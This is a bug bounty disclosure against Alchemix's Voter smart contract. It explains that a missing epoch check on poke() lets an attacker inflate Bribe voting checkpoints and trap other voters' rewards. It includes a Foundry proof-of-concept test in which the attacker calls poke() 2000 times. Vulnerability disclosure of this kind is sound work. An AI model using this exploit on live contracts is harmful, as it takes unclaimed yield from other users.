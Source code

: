 
# Malicious actor can acquire bribe rewards by blocking other users

Submitted on May 13th 2024 at 20:01:40 UTC by @DuckAstronomer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31163

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Permanent freezing of unclaimed yield
- Theft of unclaimed yield

## Description
## Vulnerability Details
The `Voter` contract uses the `onlyNewEpoch` modifier for the `reset()` and `vote()` external functions, which prevents users from voting multiple times or revoting in the same epoch.

However, the `poke()` function is missing the `onlyNewEpoch` modifier, allowing the user to call it multiple times during an epoch. When `poke()` is invoked, it internally calls `_vote()` which resets previous votes first (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L413) and then proceeds to apply the same amount of votes.

The `_reset()` function perform the withdrawal of votes from a `Bribe` contract (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L396), while the `_vote()` function deposit votes back (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L441).

The `Bribe` contract utilizes the `deposit()` function to checkpoint the voting amount for the current Epoch by invoking `_writeVotingCheckpoint()` (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L313). However, in the `withdraw()` function, it does not checkpoint the voting amount for the current Epoch. This is acceptable since users are required to vote or reset once in an Epoch. However, this assumption is invalid because of the `poke()` function. Users can call it any number of times in an epoch.

A malicious user can call `poke()` multiple times, inflating the value of votes made for an Epoch. Consequently, when calculating the amount of bribes a benign user should receive, the amount will be significantly lower.

```
_prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes;

// Prevent divide by zero
if (_prevSupply == 0) {
    _prevSupply = 1;
}
prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
```

Since the value of `_prevSupply` will be quite big due to multiple calls to `poke()`, the reward (`prevRewards.balanceOf`) will be small. Consequently, reward tokens become trapped in the Bribe contract, causing users to miss out on their rewards.

This way an attacker can discourage users with significant voting power from participating in voting for a specific gauge and then later acquire trapped bribes in the following epochs.


## Impact Details
- Theft of unclaimed yield.
- Permanent freezing of unclaimed yield.



## Proof of Concept

POC scenario:
1. The bad guy has **99** times less voting power than the good guy.
2. The good guy normally should get **99K** of BAL bribes.
3. However, the Bad guys call `poke()` 2000 times.
4. As a result of the attack, the good guy receives 15 times less reward.

Instructions:
1. Put Poc's code from below into the file `src/test/Voting.t.sol` - https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/test/Voting.t.sol.
1. Run the Poc as follows: `forge test --mp src/test/Voting.t.sol --fork-url URL --fork-block-number BLOCK`

```
function test_poc_ok() public {
    address bad = address(1);
    address good = address(2);

    // The good guy has 99x more voting power
    // The good guy should receive 99x more bribes ...
    uint256 tokenId1 = createVeAlcx(bad, 1 ether, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(good, 99 ether, MAXTIME, false);

    uint256 initialTimestamp = block.timestamp;

    address bribeAddress = voter.bribes(address(sushiGauge));

    // Add BAL and AURA bribes to sushiGauge
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
    createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

    address[] memory pools = new address[](1);
    pools[0] = sushiPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    address[] memory bribes = new address[](1);
    bribes[0] = address(bribeAddress);
    address[][] memory tokens = new address[][](2);
    tokens[0] = new address[](2);
    tokens[0][0] = bal;
    tokens[0][1] = aura;

    // Good and bad guys votes for sushiPoolAddress
    hevm.prank(good);
    voter.vote(tokenId2, pools, weights, 0);

    hevm.prank(bad);
    voter.vote(tokenId1, pools, weights, 0);

    // Reach the end of the epoch
    hevm.warp(block.timestamp + nextEpoch);

    // Claim bribes for good and bad guys
    hevm.prank(good);
    voter.claimBribes(bribes, tokens, tokenId2);

    hevm.prank(bad);
    voter.claimBribes(bribes, tokens, tokenId1);

    // Fair amount of Bribes for the good guy
    uint256 fairAmount = IERC20(bal).balanceOf(good);

    require(
        fairAmount > TOKEN_100K * 9 / 10
    );
}

function test_poc_not_ok() public {
    address bad = address(1);
    address good = address(2);

    // The good guy has 99x more voting power
    // The good guy should receive 99x more bribes ...
    uint256 tokenId1 = createVeAlcx(bad, 1 ether, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(good, 99 ether, MAXTIME, false);

    uint256 initialTimestamp = block.timestamp;

    address bribeAddress = voter.bribes(address(sushiGauge));

    // Add BAL and AURA bribes to sushiGauge
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
    createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

    address[] memory pools = new address[](1);
    pools[0] = sushiPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    address[] memory bribes = new address[](1);
    bribes[0] = address(bribeAddress);
    address[][] memory tokens = new address[][](2);
    tokens[0] = new address[](2);
    tokens[0][0] = bal;
    tokens[0][1] = aura;

    // Good and bad guys votes for sushiPoolAddress
    hevm.prank(good);
    voter.vote(tokenId2, pools, weights, 0);

    hevm.prank(bad);
    voter.vote(tokenId1, pools, weights, 0);

    // Bad guy invokes poke() 2000 times in the same epoch
    // this way manipulating votingCheckpoints[lastIndex].votes of Bribes
    // https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L255-L261
    hevm.startPrank(bad);
    for (uint i; i < 2000; i++) {
        voter.poke(tokenId1);
    }
    hevm.stopPrank();

    // Reach the end of the epoch
    hevm.warp(block.timestamp + nextEpoch);

    // Claim bribes for good and bad guys
    hevm.prank(good);
    voter.claimBribes(bribes, tokens, tokenId2);

    hevm.prank(bad);
    voter.claimBribes(bribes, tokens, tokenId1);

    uint256 unfairAmount = IERC20(bal).balanceOf(good);

    // The good guy gets 15x less bribes (((
    require(
        unfairAmount * 15 < TOKEN_100K * 9 / 10
    );
}
```